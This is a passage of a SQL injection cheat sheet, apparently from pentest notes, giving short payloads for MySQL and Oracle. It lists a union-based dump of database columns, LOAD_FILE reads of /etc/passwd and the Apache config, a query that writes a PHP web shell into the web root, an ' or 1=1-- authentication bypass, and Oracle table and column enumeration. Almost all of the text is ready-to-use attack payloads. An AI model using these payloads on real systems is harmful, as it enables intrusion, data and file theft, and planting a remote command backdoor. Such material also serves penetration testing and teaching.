 - > dump

```
-1 union select 1,2, group_concat(<column_names>) from <database_name>.<table_name>;#

```

### Webshell via SQLI

- > view web server path

```
LOAD_FILE('/etc/httpd/conf/httpd.conf')

```

- > creating webshell

```
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/shell.php";

```

### Reading Files via SQLI - MySQL

e.g.

```
SELECT LOAD_FILE('/etc/passwd')

```

## Oracle SQL

- > Bypass Authentication

```
' or 1=1--

```

- > get number columns

```
' order by 3--

```

- > get table name

```
' union select null,table_name,null from all_tables--

```

- > get column name

```
' union select null,column_name,null from all_tab_columns where table_name='<table_name>'--

```
